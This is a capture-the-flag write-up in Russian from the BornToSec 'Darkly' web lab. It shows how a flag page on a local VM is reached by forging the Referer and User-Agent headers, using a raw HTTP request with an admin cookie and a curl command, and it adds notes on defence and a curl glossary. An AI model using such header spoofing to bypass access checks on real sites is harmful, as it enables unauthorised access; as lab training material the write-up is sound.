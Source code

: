 Нажми на значение в конце страницы - © BornToSec
Тем самым мы зайдём по адресу http://192.168.56.108/?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c

Если происследовать страницу, то найдём текст, где можно найти подсказку. 

В другой строке предлагается использовать браузер с учетными данными ft_bornToSec. 
https://en.wikipedia.org/wiki/User_agent
Заменим реферера на "https://www.nsa.gov/". 
Обычно реферер указывает, откуда вы перешли на другой веб-сайт (в данном случае - с веб-сайта NSA).
https://en.wikipedia.org/wiki/Referer_spoofing

Здесь, чтобы получить флаг, сайт должен определить, что мы пришли с сайта https://www.nsa.gov/. Все, что нам нужно было сделать, это подменить(spoof) реферера в заголовках.

Итак, мы отправляем эти http-заголовки:

GET /index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c HTTP/1.1
Host: 192.168.0.30
User-Agent: ft_bornToSec
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://www.nsa.gov/
Connection: keep-alive
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0, no-cache
Pragma: no-cache


Мы можем воспользоваться функцией curl и сохранить страницу в flag01.html, где его откроем и увидим флаг.


Флаг -А Укажите  User-Agent для отправки на HTTP-сервер. 
Флаг -е Отправляет информацию о странице реферера на HTTP-сервер.
Вход идёт из "https://www.nsa.gov/" в http://192.168.56.108 через браузер ft_bornToSec"

➜  ~ curl -A "ft_bornToSec" -e "https://www.nsa.gov/" http://192.168.56.108/\?page\=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c > flag01.html

The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

Почему это опасно?
* Это может позволить пользователю с недопустимыми учетными данными получить доступ к запрещенной странице.

* Проверка реферера может предотвратить множественные проблемы безопасности, такие как RFI (включение удаленного файла) или CSRF (подделка межсайтовых запросов).

Как защититься?

* Проверить заголовки запросов на стороне сервера

* Надо создать правильную страницу входа в систему 

* Можно добавить токен и пароль для входа в параметрах запроса.

* Можно создать сеанс удаленного рабочего стола для входа администратора.





glossary:

curl
       -A, --user-agent <name>
              (HTTP) Specify the User-Agent string to send to the HTTP server.
              To  encode blanks in the string, surround the string with single
              quote marks. This can also be set with the _-_H_,  _-_-_h_e_a_d_e_r  option
              of course.

              If this option is used several times, the last one will be used.

       -e, --referer <URL>
              (HTTP) Sends the "Referrer Page" information to the HTTP server.
              This can also be set with the _-_H_, _-_-_h_e_a_d_e_r flag of course.  When
              used  with  _-_L_,  _-_-_l_o_c_a_t_i_o_n  you  can  append ";auto" to the _-_e_,
              _-_-_r_e_f_e_r_e_r URL to make curl automatically set  the  previous  URL
              when  it  follows  a Location: header. The ";auto" string can be
              used alone, even if you don't set an initial _-_e_, _-_-_r_e_f_e_r_e_r.

              If this option is used several times, the last one will be used.

              See also _-_A_, _-_-_u_s_e_r_-_a_g_e_n_t and _-_H_, _-_-_h_e_a_d_e_r.